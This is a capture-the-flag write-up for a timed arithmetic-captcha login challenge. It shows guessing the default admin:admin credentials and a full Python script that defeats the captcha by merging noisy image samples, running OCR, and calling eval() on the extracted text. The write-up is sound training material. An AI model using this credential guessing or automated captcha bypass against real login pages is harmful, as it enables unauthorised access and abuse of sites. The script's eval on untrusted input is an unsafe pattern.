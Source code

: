 # Captcha ByGoal

```
Не намагайтеся зігнути ложку - це неможливо. Натомість намагайтеся лише усвідомити істину.
```

After following the [link](https://captcha-bygoal.ua30ctf.org/) we get to the login page

![Login](./images/captcha_login.png)

Of course we try _admin:admin_ credentials, otherwise we would not be hackers.

---

And we guessed it right. Now we can see the following captcha

![Captcha](./images/captcha.png)

It has a time limit, so i tried to solve it as fast as i can, but couldn't quite do it in time a bunch of times. So i looked at the captcha itself (right click -> open image in new tab) and got to _/img.php_ endpoint. If we refresh the page, the values are unchanged but the noise is. That's interesting. 

So if we can't do it by hand, i thought about automating it and wrote a python script

```
#!/usr/bin/env python3

from PIL import Image
from io import BytesIO
import pytesseract
import requests
import re

def main():
  url = 'https://captcha-bygoal.ua30ctf.org/img.php'
  cookie = 'fd883a893fe47c11e87db162cca675c2'
  imgs = []
  # the more, better quality
  sample_size = 3
  for i in range(sample_size):
    img = Image.open(requests.get(url, stream=True, cookies={'PHPSESSID': cookie}).raw)
    imgs.append(img)

  pixels = [img.load() for img in imgs]
  width, height = imgs[0].size
  res_img = Image.new('1', (width, height))
  res_pix = res_img.load()


  for i in range(width):
    for j in range(height):
      temp = []
      for k in range(len(pixels)):
        temp.append(sum(pixels[k][i, j]))
      res_pix[i, j] = 255 if min(temp) < 300 else 0
  # Perform OCR
  text = pytesseract.image_to_string(res_img, config='--psm 6')

  expr = re.findall(r'\d+|\+|\-|\*|\/|\(|\)', text)
  result = eval(''.join(expr))
  req = requests.post(
    'https://captcha-bygoal.ua30ctf.org/index.php',
    cookies={'PHPSESSID': cookie},
    data={'login':'admin', 'password':'admin', 'captcha':result}
  )
  for line in req.content.decode().split('\n'):
    if 'expired' in line:
      main()
    elif 'ctf{' in line or 'CTF{' in line:
      print(line[6:])


if __name__ == '__main__':
  main()

```

To summarize it, we make a few requests to the _/img.php_ endpoint and get several similar pictures with different noise. 
Cookies are necessary to get the access to the endpoint as a part of authorization process. Then we convert those images from bytes to pixel values and create a new picture that will be without the noise. We loop through each pixel with RGB values and _sum_ them in order to get the unified values. 
Background is always grey and the operators with operands are always close to white (so as noise). Therefore if the minimum value (which is probably grey if its background or white if it's a character. more sample size gives better accuracy because of noise but lower speed) from sample images doesn't pass the treshhold we paint it as white, otherwise as black. then we use pytesseract to perform OCR on the image and extract the string based on the given regex, we extract the values (in case there was an error) and submit the result via post request. the last for loop is just for convenience to extract the flag from response body and if not found execute again.

---

## ctf{Everything_is_physics_and_math}

